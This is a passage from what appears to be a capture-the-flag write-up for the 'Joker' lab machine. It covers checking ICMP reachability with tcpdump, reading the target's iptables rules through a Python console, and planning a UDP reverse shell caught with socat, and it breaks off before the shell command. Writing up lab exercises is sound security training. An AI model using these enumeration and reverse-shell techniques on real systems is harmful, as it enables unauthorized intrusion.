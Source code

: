 
The `ping` does make it back:

    
    
    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    06:55:52.073158 IP 10.10.10.21 > 10.10.14.13: ICMP echo request, id 1432, seq 1, length 64
    06:55:52.073183 IP 10.10.14.13 > 10.10.10.21: ICMP echo reply, id 1432, seq 1, length 64
    

### Enumerating Firewall

Having had issues connecting from Joker to my box twice now, so it’s time to
enumerate the firewall. Before I start running loops to test what makes it
out, I decided to try to print the firewall rules, and it worked:

    
    
    [console ready]
    >>> with open('/etc/iptables/rules.v4', 'r') as f: print(f.read())
    # Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017
    *filter
    :INPUT DROP [41573:1829596]
    :FORWARD ACCEPT [0:0]
    :OUTPUT ACCEPT [878:221932]
    -A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT
    -A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT
    -A INPUT -i ens33 -p udp -j ACCEPT
    -A INPUT -i ens33 -p icmp -j ACCEPT
    -A INPUT -i lo -j ACCEPT
    -A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP
    COMMIT
    # Completed on Fri May 19 18:01:16 2017
    

It starts by setting the default for inbound as `DROP` and for outbound and
forward as `ACCEPT`. Then reading from the top:

  * TCP 22 inbound is allowed;
  * TCP 3128 inbound is allowed;
  * All UDP inbound is allowed;
  * All ICMP inbound is allowed;
  * All localhost inbound is allowed;
  * All new TCP connections outbound are dropped.

This all fits what I’ve experienced so far.

### UDP Rev Shell

Since UDP is accepted inbound and not blocked outbound (so accepted due to the
default outbound `ACCEPT`), I’ll try using commands based on [this UDP rev
shell](https://github.com/infodox/python-pty-
shells/blob/master/udp_pty_backconnect.py). I’ll also catch the shell with
`socat` so I can go right into a PTY, rather than having to do the normal
trick for that. With `socat` listening:
